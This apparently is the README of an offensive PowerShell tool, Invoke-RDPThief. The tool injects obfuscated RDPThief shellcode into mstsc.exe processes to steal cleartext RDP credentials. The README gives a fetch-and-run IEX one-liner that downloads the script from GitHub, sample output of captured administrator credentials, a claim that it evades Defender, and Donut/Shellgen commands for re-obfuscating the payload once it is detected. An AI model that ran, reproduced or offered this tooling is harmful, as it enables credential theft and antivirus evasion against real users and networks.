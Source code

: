 # Invoke-RDPThief

This PowerShell script runs on a loop hunting for mstsc.exe processes. When any are found, the script will perform process injection on the target process and inject RDPthief into the process in order to capture cleartext credentials.

RDPThief.dll was converted to shellcode with Donut, then converted to UUIDs with Shellgen to hide the shellcode in plainsight within the script. The UUIDs are then converted back into shellcode at runtime and injected whilst staying completley in memory.

Works against Defender as of 01/10/2024

## Usage
```powershell
# Load into memory and execute
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/Invoke-RDPThief/refs/heads/main/Invoke-RDPThief.ps1")

```
## Output
```
[*] Hunting for mstsc...

[+] Successfully injected into process 5496

[+] Extracted Credentials

Server   : DC01.Security.local
Username : SECURITY\administrator
Password : Password123
```

## Payload creation
The payload in the script is ready to go however, the steps below can be followed if the payload is signatured in the future.

Convert RDPThief.dll into shellcode with Donut.
```
.\donut.exe -f:1 --input:C:\RdpThief.dll -e 3 -b 1 -x 3 -k 2
```

Convert to UUID with Shellgen
```powershell
Shellgen -RawFile "C:\loader.bin" -OutputFormat UUID
```
Take the output and place it into the $UUIDs array in Invoke-RDPThief.ps1

RDPThief: https://github.com/0x09AL/RdpThief

Donut: https://github.com/TheWover/donut

Shellgen: https://github.com/Leo4j/ShellGen


